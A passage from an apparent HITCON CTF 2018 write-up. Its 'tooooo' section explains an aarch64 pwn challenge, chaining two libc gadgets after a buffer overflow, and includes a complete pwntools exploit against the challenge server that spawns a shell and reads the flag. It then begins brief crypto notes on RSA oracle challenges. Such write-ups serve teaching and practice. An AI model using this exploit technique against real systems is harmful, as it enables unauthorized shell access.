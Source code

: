 ```python
```

### tooooo

Just like the challenge [HITCON-CTF-2017 two](https://ctftime.org/task/4841), but this time in aarch64.

Every register is random value. We need to findout two gadget in libc in order to get shell.

First, I aimed for `/bin/sh`, and I found that only the gadget at 0x63E8c is acceptable. The others need to clean too much registers.

0x63E8c
![](https://i.imgur.com/wQGcal3.png)

Then, we just need to find another gadget to clean register x1. Then I found one gadget at 0xE61B0

0xE61B0
![](https://i.imgur.com/fJvJwbi.png)


With these two gadgets, we can get shell.


```python=
from pwn import *
r=remote("13.230.48.252", 4869)

stdout=0x154560
r.recvuntil("0x")
lib=r.recvline()
lib=int(lib,16)-stdout
log.info(hex(lib)) # get libc address

r.send("a"*0x20+p64(lib+0xE61B0)+p64(lib+0x63E8c))

r.sendline("cat /home/tooooo/flag")
r.interactive()

```



## Crypto

### Lost Modulus

[https://sasdf.cf/ctf-tasks-writeup/writeup/2018/hitcon/crypto/lostmod/](https://sasdf.cf/ctf-tasks-writeup/writeup/2018/hitcon/crypto/lostmod/)

### Lost-Key

This challenge is a RSA cryptosystem

We have encryption and decryption oracles as in `Lost-Modulus` challenge
